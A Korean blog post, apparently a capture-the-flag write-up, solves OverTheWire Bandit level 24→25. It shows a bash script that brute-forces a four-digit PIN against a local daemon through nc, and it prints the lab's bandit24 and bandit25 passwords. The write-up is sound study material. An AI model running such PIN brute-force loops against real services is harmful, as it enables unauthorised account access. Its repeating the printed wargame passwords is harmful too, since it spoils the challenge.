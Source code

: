 ```yaml
---
title: "Bandit Level 24 → Level 25"
date: 2024-02-14
categories: [Wargames]
tags: [Wargames, Bandit]
---
```


## 문제
<https://overthewire.org/wargames/bandit/bandit25.html>

## 목표
다음 레벨의 패스워드를 찾는다.
> Demon은 30002번 포트에서 수신 대기 중이다. `bandit24`의 비밀번호와 4자리 핀코드를 제출하면 `bandit25`의 비밀번호를 얻을 수 있다.

## 풀이

스크립트 작성을 위해 새 디렉토리를 만든다.

```sh
bandit24@bandit:~$ mkdir /tmp/new_dir
bandit24@bandit:~$ cd /tmp/new_dir
```  

<br>  

`bandit24`의 패스워드와 핀코드를 무차별 대입해 새 파일에 저장하는 스크립트를 작성한다.  

```sh
bandit24@bandit:/tmp/new_dir$ vi script.sh
```  

```sh
#!/bin/bash

for i in {0000..9999}
        do
                echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> /tmp/new_dir/Password.txt
        done
```  

<br>  

저장된 파일을 30002번 포트에 제출한다.  

```sh
bandit24@bandit:/tmp/new_dir$ cat Password.txt | nc localhost 30002
.
.
.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```  

<br>  

**Password : p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d**

## 배운 것
- 무차별 대입 공격
